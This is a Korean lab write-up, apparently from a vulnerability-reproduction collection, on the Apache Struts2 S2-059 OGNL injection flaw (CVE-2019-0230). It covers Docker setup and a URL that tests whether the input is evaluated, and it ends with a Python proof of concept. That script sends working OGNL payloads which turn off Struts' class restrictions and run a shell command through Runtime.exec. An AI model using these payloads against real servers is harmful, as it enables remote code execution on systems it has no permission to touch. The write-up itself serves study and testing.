 # Struts2 S2-059 원격 코드 실행 취약점 (Remote Code Execution Vulnerablity(CVE-2019-0230))

Apache Struts 프레임워크는 ID 속성과 같은 특정 태그의 속성 값을 2차적으로 분석하므로 공격자가 태그 속성을 나타낼 때 다시 분석될 OGNL 표현을 전달하여 OGNL 표현을 주입할 수 있습니다.이로 인해 코드가 원격으로 실행될 수 있습니다.

Affected Version: Struts 2.0.0 - Struts 2.5.20

참고자료:

- https://cwiki.apache.org/confluence/display/WW/S2-059
- https://securitylab.github.com/research/ognl-apache-struts-exploit-CVE-2018-11776

## 설정

Start the Struts 2.5.16 환경:

```
docker compose up -d
```


환경 설정 후, `http://{나의 ip주소}:8080/?id=1`에 가보면 Struts2 test page를 볼 수 있다.
![1.png](1.png)

## Exploit

`http://{나의 ip주소}:8080/?id=%25%7B233*233%7D`에 방문해보면 id 속성에서 233*233 결과과 반환된 것을 확인 가능
즉, 이 표현식을 사용한 주요 목적은 Struts2이 사용자 제공 입력을 OGNL 표현식으로 해석하고 실행하는지 여부를 확인하는 것. 만약 사용자가 제공한 입력 값인 233*233이 평가되어서 결과 값인 54289로 반환된다면, 애플리케이션은 OGNL 표현식 주입 취약점이 있음을 알 수 있음.
변경 확인 방법은 개발자 도구를 통해 확인 가능

![2.png](2.png)
![3.png](3.png)
![4.png](4.png)


[OGNL Apache Struts exploit: Weaponizing a sandbox bypass (CVE-2018-11776)](https://securitylab.github.com/research/ognl-apache-struts-exploit-CVE-2018-11776)(참고 자료)를 통해 Struts 2.5.16.의 OGNL sandbox bypass의 세부사항을 알 수 있습니다.



취약점 증명용 간단한 파이썬 POC:


```python
import requests  # requests 모듈을 불러옴

url = "http://127.0.0.1:8080"  # 대상 웹 서버의 URL

# 첫 번째 공격 payload
# Struts2의 OGNL 표현식을 이용하여 웹 어플리케이션의 보안 설정을 바꾸려고 시도.
# 특히, 실행될 클래스와 패키지의 제한을 제거하려고 시도.
data1 = {
    "id": "%{(#context=#attr['struts.valueStack'].context).(#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.setExcludedClasses('')).(#ognlUtil.setExcludedPackageNames(''))}"
}

# 두 번째 공격 payload
# 첫 번째 payload에서의 보안 설정 변경 후, 서버 내에서 외부 명령을 실행하려고 시도.
# 'touch /tmp/successbywhs1hyeongyu' 명령을 사용하여 서버 내 '/tmp' 디렉터리에 파일을 생성.
data2 = {
    "id": "%{(#context=#attr['struts.valueStack'].context).(#context.setMemberAccess(@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)).(@java.lang.Runtime@getRuntime().exec('touch /tmp/successbywhs1hyeongyu'))}"
}

# 첫 번째 공격 payload를 사용하여 POST 요청을 전송
res1 = requests.post(url, data=data1)

# 결과를 출력하려면 아래의 코드의 주석을 해제
# print(res1.text)

# 두 번째 공격 payload를 사용하여 POST 요청을 전송
res2 = requests.post(url, data=data2)

# 결과를 출력하려면 아래의 코드의 주석을 해제
# print(res2.text)

```


해당 POC를 실행하면 `touch /tmp/successbywhs1hyeongyu`가 실행이 된다.:

![5.png](5.png)
![6.png](6.png)
![7.png](7.png)
![8.png](8.png)
